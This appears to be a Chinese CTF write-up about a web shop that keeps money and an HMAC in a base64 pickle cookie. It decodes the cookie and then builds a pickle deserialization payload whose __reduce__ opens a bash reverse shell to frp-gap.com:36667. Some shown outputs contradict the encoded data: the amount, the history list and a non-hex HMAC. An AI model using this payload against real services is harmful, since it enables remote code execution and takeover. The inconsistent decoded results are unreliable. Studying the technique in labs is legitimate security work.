 第一位一定是 `\x80`, 下一位为协议编号, 如这里是 `\x03`, 那就是 3 号协议, 写个简单的 python 文件解码一下:

```python
import base64
import pickle

# Base64 编码的 pickle 数据
b64_data = "gAN9cQAoWAUAAABtb25leXEBTYgTWAcAAABoaXN0b3J5cQJYFQAAAFl1bW15IHN0YW5kYXJkIHBpY2tsZXEDWBAAAABhbnRpX3RhbXBlcl9obWFjcQRYIAAAAGFhMWJhNGRlNTUwNDhjZjIwZTBhN2E2M2I3ZjhlYjYycQV1Lg=="

# 解码
decoded_data = base64.b64decode(b64_data)

# 反序列化
obj = pickle.loads(decoded_data)

# 打印结果
print(obj)
```

得到的结果是

```json
{
    'money': 500,
    'history': [],
    'anti_tamper_hmac': 'aa1b4c3e55048cf93s0a7a63b7f8eb62'
}
```

此时响应包里有一个 set-cookie, 同样解码:

```json
data = {
    'money': 490,
    'history': ['Yummy standard pickle'],
    'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'
}
```

注意到 `'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'`, 这一项是一个签名, 也就是说不能随便改 money 来买商品了, 这里只能寻找其他思路。

这里本身的逻辑应该是反序列化后比对其中的 `'anti_tamper_hmac'` 这一项的签名是否有效, 然后再将 POST 中对应商品 id 与 money 作比较购买, 但是用 pickle 反序列化有一个特性, 由于反序列化对象是可以自定义的, 可以直接定义 `__reduce__` 方法, 在反序列化的时候直接被调用, 可以通过这个方法直接突破比对, 比如植入一个反弹shell:

### 构造反弹 shell

```python
import base64
import pickle

class A(object):
    def __reduce__(self):
        # 反弹 shell 到 frp-gap.com:36667
        cmd = "bash -i >& /dev/tcp/frp-gap.com/36667 0>&1"
        return (eval, ("__import__('os').system(%r)" % cmd,))

a = A()

# 构造 pickle payload 并 base64 编码
payload = base64.b64encode(pickle.dumps(a))

# 输出最终 payload
print(payload.decode())
```


